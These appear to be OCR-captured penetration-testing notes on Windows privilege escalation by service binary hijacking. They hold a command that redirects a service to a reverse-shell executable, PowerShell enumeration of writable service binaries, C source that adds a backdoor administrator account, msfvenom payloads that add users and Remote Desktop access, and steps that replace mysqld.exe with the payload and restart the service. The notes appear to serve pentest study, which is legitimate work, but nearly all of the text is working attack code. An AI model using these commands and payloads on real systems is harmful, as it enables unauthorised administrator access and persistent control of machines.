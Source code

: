 ```powershell

sc config VSS binpath="C:\Users\helpdesk_setup\rev443.exe"

```
## Service Binary Hijacking

```powershell
# enumerate the permissions on the service binaries
# ⇒ Use icacls or Get-ACL

Get-CimInstance -ClassName win32_service 
       | Select Name,State,PathName, StartMode 
       | Where-Object {$_.State -like 'Running'}
icacls c:\xampp\mysql\bin\mysqld.exe

```
# replace binary by a malicious code

```powershell
# Create a malicious code on our Kali
cat adduser.c

#include <stdlib.h>
int main ()
{
	int i;
	i = system ("net user dave2 password123! /add");
	i = system ("net localgroup administrators dave2 /add");
	return 0;
}

# Cross-compile the code on Kali machine
# sudo apt install mingw-w64
$ x86_64-w64-mingw32-gcc adduser.c -o adduser.exe

# use msfvenom
$ msfvenom -p windows/adduser USER=metasploit PASS='Metasploit$1' -f exe -o adduser.exe  
$ msfvenom -p windows/exec cmd='net localgroup "Remote Desktop Users" metasploit /add' -f exe -o addrdp.exe

# Replace mysqld.exe file, doesn't work with del and copy 
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

# Can we restart mysql service ?
Stop-Service mysql
net stop mysql
sc.exe stop mysql

# What the StartMode is?
Get-CimInstance -ClassName win32_service 
   | Select Name, StartMode 
   | Where-Object {$_.Name -like 'mysql'}

```
